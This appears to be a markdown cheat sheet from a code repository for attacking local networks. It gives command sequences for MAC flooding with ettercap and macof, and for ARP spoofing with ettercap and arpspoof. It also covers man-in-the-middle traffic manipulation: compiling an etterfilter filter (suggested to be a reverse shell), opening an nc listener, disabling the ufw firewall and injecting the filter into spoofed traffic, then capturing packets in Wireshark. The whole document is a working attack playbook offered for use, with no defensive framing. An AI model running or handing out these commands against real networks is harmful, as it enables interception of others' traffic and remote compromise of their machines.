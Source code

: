 ### Tools: Ettercap, macof, ip, nmap, ping

## Requirements: Root the machine that has access to more machines on its network, then scan with a port scanner (nmap)

# MAC FLODDING

#### 1) 

    ettercap -T -i INTERFACE -P rand_flood -q -w /tmp/tcpdump3.pcap

#### 2)

    macof -i INTERFACE

# ARP SPOOFING

#### 

    ettercap -T -i INTERFACE_2 -M arp

# MAN IN THE MIDDLE MANIPULATION

#### 1) Create a filter (preferably a reverse shell)

#### 2) Compile it with etterfilter

#### 

    etterfilter example.ecf -o example.ef

#### 3) 

    nc -lvnp PORT &

#### 4) 

    ufw disable

#### 5) 

    ettercap -T -i INTERFACE_2 -M arp -F example.ef

# MITM EXAMPLE 2
 
#### 1) 

    sudo arpspoof -i INTERFACE -t TARGET_MACHINE DEFAULT_GATEWAY

#### 2) 

    sudo wireshark (Capture live packets)

#### 3) 

    Filter on wireshark on what traffic you want to capture

## TIP: Attacker and target should be connected in the same network for this to work
